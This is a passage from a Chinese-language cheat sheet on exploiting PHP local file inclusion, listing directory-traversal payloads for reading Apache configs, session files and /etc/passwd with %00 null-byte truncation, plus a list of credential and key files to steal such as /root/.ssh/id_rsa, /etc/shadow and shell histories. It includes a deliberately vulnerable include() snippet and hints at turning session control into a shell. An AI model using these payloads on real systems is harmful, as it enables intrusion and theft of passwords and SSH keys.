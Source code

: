 *   获取 web 目录或者其他配置文件：

?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

（更多→http://wiki.apache.org/httpd/DistrosDefaultLayout）

*   包含上传的附件：

?file=../attachment/media/xxx.file

*   读取 session 文件：

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

（session 文件一般在/tmp 目录下，格式为 sess_[your phpsessid value]，有时候也有可能在/var/lib/php5 之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值，也许你能够获得一个 shell）

*   如果拥有 root 权限还可以试试读这些东西：

/root/.ssh/authorized_keys

/root/.ssh/id_rsa

/root/.ssh/id_rsa.keystore

/root/.ssh/id_rsa.pub

/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history

/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)

/proc/mounts

/proc/config.gz

*   如果有 phpinfo 可以包含临时文件：

参见 http://hi.baidu.com/mmnwzsdvpkjovwr/item/3f7ceb39965145eea984284el

## 0x02 有限制的本地文件包含

* * *

```
<?php include("inc/" . $_GET['file'] . ".htm"); ?> 

```

*   %00 截断：

?file=../../../../../../../../../etc/passwd%00

(需要 magic_quotes_gpc=off，PHP 小于 5.3.4 有效)

*   %00 截断目录遍历：

?file=../../../../../../../../../var/www/%00
